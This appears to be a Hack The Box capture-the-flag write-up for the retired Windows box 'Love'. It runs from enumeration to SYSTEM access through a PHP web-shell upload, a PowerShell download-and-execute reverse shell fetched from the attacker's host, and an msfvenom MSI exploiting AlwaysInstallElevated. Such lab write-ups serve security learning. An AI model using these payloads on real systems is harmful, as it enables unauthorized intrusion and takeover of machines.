




# Love

This is the write-up for the box Love that got retired at the 7th August 2021.
My IP address was 10.10.14.8 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.239   love.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/love.nmap 10.10.10.239
```

```
PORT     STATE SERVICE      VERSION       
80/tcp   open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-title: Voting System using PHP
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp  open  ssl/http     Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-title: 403 Forbidden
| ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in
| Not valid before: 2021-01-18T14:00:16
|_Not valid after:  2022-01-18T14:00:16
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
| tls-alpn:
|_  http/1.1
445/tcp  open  microsoft-ds Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
3306/tcp open  mysql?
5000/tcp open  http         Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-title: 403 Forbidden
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
Service Info: Hosts: www.example.com, LOVE, www.love.htb; OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Checking HTTPS (Port 443)

The web page on port 443 shows the HTTP status code _403 Forbidden_, but the SSL certificate has some valuable information.

There is a common name _staging.love.htb_ that has to be put into the _/etc/hosts_ to access it.
The email address has the name _roy_ in it, which could be a potential username.

Unfortunately the hostname also resolves in the HTTP status code _403 Forbidden_.

## Checking HTTP (Port 5000)

The web page on port 5000 shows the HTTP status code _403 Forbidden_.

## Checking HTTP (Port 80)

The web service on port 80 shows a login form to a _Voting System_ with the title _"Voting System using PHP"_:



Lets search for hidden directories and PHP files with **Gobuster**:
```
gobuster -u http://10.10.10.239 dir -w /usr/share/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt
```

It finds the directory _/admin_ with a similar login form.

The hostname _staging.love.htb_ forwards to another service called _Free File Scanner_.
The menu _Demo_ allows us to specify and URL to scan a file:



It is possible to specify the other web services and it can be used to enumerate them.
By specifying localhost and the port, it shows the web page behind the service:



```
Vote Admin Creds admin: @LoveIsInTheAir!!!!
```

The credentials work on the _/admin_ login form found earlier.

### Exploiting Voting System

There is a link in the footer to the source of the application which is a [project on sourcecodester.com](https://www.sourcecodester.com/php/12306/voting-system-using-php.html).

In the menu _Voters_ it is possible to add a new entry and upload a photo:



This might be vulnerable to an arbitrary file upload if it does not validate images and it may be possible to upload PHP files to execute code.
Lets upload an image and forward the request to a proxy like **Burpsuite** and change the image data to PHP code:
```
POST /admin/voters_add.php HTTP/1.1
Host: 10.10.10.239
(...)
Content-Disposition: form-data; name="photo"; filename="shell.php"
Content-Type: image/jpeg

<?php
system($_REQUEST['cmd']);
?>
(...)
```

The file gets uploaded to _/image/shell.php_ and it is possible to execute system commands:
```
http://10.10.10.239/images/shell.php?cmd=whoami
```

This can now be used to upload and execute a reverse shell script.
I will use the _Invoke-PowerShellTcpOneLine.ps1_ script from the **Nishang scripts**:

```
POST /images/shell.php HTTP/1.
(...)

cmd=powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.8:8000/shell.ps1')"
```

After sending the request, the script gets downloaded and executed and the listener on my IP and port 9001 starts a reverse shell as the user _phoebe_.

## Privilege Escalation

To get an attack surface, it is recommended to run any **Windows Enumeration Script**:
```
curl 10.10.14.8:8000/winPEASx64.exe -o winpeas.exe

.\winpeas.exe
```

The [AlwaysInstallElevated](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#alwaysinstallelevated) registry key is enabled which allows to execute **.msi** files with SYSTEM permissions.

Creating reverse shell payload with **Msfvenom**:
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.8 LPORT=9002 -f msi > payload.msi
```

Downloading payload to the box:
```
C:\Users\Public\Documents> curl 10.10.14.8:8000/payload.msi -o payload.msi
```

Executing the payload:
```
msiexec /q /i payload.msi
```

After executing the payload, the listener on my IP and port 9002 starts a reverse shell as _SYSTEM_!
